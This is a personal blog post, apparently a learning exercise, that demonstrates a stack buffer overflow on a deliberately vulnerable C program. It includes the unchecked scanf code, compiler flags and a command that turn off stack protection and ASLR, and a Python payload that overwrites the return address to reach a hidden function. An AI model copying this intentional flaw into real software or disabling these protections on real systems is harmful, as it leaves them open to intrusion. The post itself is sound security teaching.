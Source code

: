```yaml
---
layout: post
title: "Buffer Overflow"
date: 2022-02-16 17:00:00 +01:00
tags: edb security
---
```


I remember I've tried hard when I was younger to create a super easy example of a buffer overflow.
I read about it and understood the mechanism, but never accomplished writing a real program which demonstrates the effect.

That thought crossed my mind today and I realized I should be able to do it today with a little more experience.

In addition, I found this wonderful article about it:  
[dhavalkapil.com](https://dhavalkapil.com/blogs/Buffer-Overflow-Exploit/)

So, I will basically repeat the steps in the article and build my first own buffer overflow program.

# The program

*buffer-overflow.c*

```c
#include <stdio.h>

void secretFunction()
{
    printf("Congratulations!\n");
    printf("You have entered in the secret function!\n");
}

void echo()
{
    char buffer[20];

    printf("Enter some text:\n");
    scanf("%s", buffer);
    printf("You entered: %s\n", buffer);    
}

int main()
{
    echo();

    return 0;
}
```

As you can see, the buffer size remains unchecked and a user can enter more than the expected 20 characters.
This leads to write into parts of the memory the program is not supposed to write.

We will overwrite the RETURN address of the function, which is stored in the stack, in order to execute the secretFunction().

# Compilation

We need to set special compiler flags to disable any security checks.
It is great the compilers today have that built-in checks, but disabling them makes it easier to grasp the concepts
and maybe understand why those checks have been added over time.

```
gcc -m32 -fno-stack-protector -no-pie -zexecstack buffer-overflow.c -o buffer-overflow
```

Run this to disable ASLR (see below):

```
echo 0 | sudo tee /proc/sys/kernel/randomize_va_space
```

# Running and crashing the program

This works fine:

```
$ ./buffer-overflow 
Enter some text:
Test
You entered: Test
```

A text more than 20 characters crashes the program, as expected:

```
$ ./buffer-overflow
Enter some text:
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
You entered: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
fish: Job 1, './buffer-overflow' terminated by signal SIGSEGV (Adressbereichsfehler)
```

Note: It still manages to output the text, before crashing.

# Evan's Debugger

I used to play hundreds of hours with OllyDbg, a debugger for Windows.

During my research and having `gdb` in mind I thought there might be something similar to OllyDbg for Linux.
And indeed there is: [https://github.com/eteran/edb-debugger](https://github.com/eteran/edb-debugger)

I've installed it from [here](https://aur.archlinux.org/packages/edb-debugger), but I needed to change
the plugin directory manually after the installation (Preferences -> Directories -> Plugin Directory: `/usr/lib/edb`).

![]({{ site.baseurl }}/images/2022-02-16-buffer-overflow/edb.png)

# Finding the right address

We don't just want to crash our program, we want to execute the secretFunction().
In order to do that, we need to know it's address.

We can either do it in edb (CTRL+ALT+S):

![]({{ site.baseurl }}/images/2022-02-16-buffer-overflow/edb-symbols.png)

or via gdb:

```
$ gdb -batch -ex "info functions" -ex quit ./buffer-overflow
All defined functions:

Non-debugging symbols:
0x08049000  _init
0x08049040  printf@plt
0x08049050  puts@plt
0x08049060  __libc_start_main@plt
0x08049070  __isoc99_scanf@plt
0x08049080  _start
0x080490c0  _dl_relocate_static_pie
0x080490d0  __x86.get_pc_thunk.bx
0x080490e0  deregister_tm_clones
0x08049120  register_tm_clones
0x08049160  __do_global_dtors_aux
0x08049190  frame_dummy
0x08049196  secretFunction
0x080491d2  echo
0x08049228  main
0x08049244  __x86.get_pc_thunk.ax
0x08049250  __libc_csu_init
0x080492c0  __libc_csu_fini
0x080492c5  __x86.get_pc_thunk.bp
0x080492cc  _fini
```

# The payload

Now, we need to know where exactly to put the address in our input text.
See the screenshot for details:

![]({{ site.baseurl }}/images/2022-02-16-buffer-overflow/edb-stack.png)

Our variable `buffer` starts at `ffae:7e7c` (marked in blue) in this case.
The return address to the main function is stored at `ffae:7e9c` (marked in green).

If we manage to write the address of our secret function (`0x08049196`) into the return address value, our secret function will be called, instead of returning to the main function.

`0x7e9c - 0x7e7c = 0x20`, which is 32 in decimal.
We need to write 32 bytes (any bytes) followed by 0x08049196 into the `buffer` variable, and we should reach our goal:
(See [here](https://stackoverflow.com/questions/66258454/printing-non-ascii-characters-in-python3) why we can't use print())

```
$ python -c 'import sys; sys.stdout.buffer.write(b"a"*32 + b"\x96\x91\x04\x08")' | ./buffer-overflow 
Enter some text:
You entered: aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa��
Congratulations!
You have entered in the secret function!
fish: Process 17504, './buffer-overflow' from job 1, 'python -c 'import sys; sys.stdo…' terminated by signal SIGSEGV (Adressbereichsfehler)
```

Voilà. Now, the program still crashes, but our secret function was called before!

Next challenge could be to build a payload which contains and executes own code,
instead of executing code which already exists in the binary.

# Security

- Position-independent Code  
  PIE is not a security feature, but a requirement for Address Space Layout Randomization.
  In Windows' .exe files, the information is stored in the `.reloc` table referenced in the optional headers.
  In our example, we explicitly generated **no** PIE information via `-no-pie`.
- Address Space Layout Randomization  
  ASLR moves our program and the stack to random addresses.
  The program can only be moved if PIE is provided.
  The stack can be in a random address even if no PIE is provided.
  In our example, we explicitly disabled ASLR via `/proc/sys/kernel/randomize_va_space`.
  When disabled, our program and the stack are always in the same memory address on each run.
  This way, we can use hard-coded absolute addresses as the return address and as part of the payload,
  which makes our life a lot easier.
- Non-Executable Stack  
  Each memory area is flagged as readable, writable, executable, or a combination of them.
  So when the stack is marked as non-executable (gcc's default), then you will see an error when the RETURN to a stack address is reached.
  In our example, we explicitly marked the stack as executable via `-zexecstack`.
- Stack Protection  
  > Emit extra code to check for buffer overflows, such as stack smashing attacks. This is done by adding a guard variable to functions with vulnerable objects. This includes functions that call "alloca", and functions with buffers larger than 8 bytes. The guards are initialized when a function is entered and then checked when the function exits. If a guard check fails, an error message is printed and the program exits.

  In our example, we explicitly disabled stack protection via `-fno-stack-protector`.

In the real-world we would need to bypass all of those security measures.
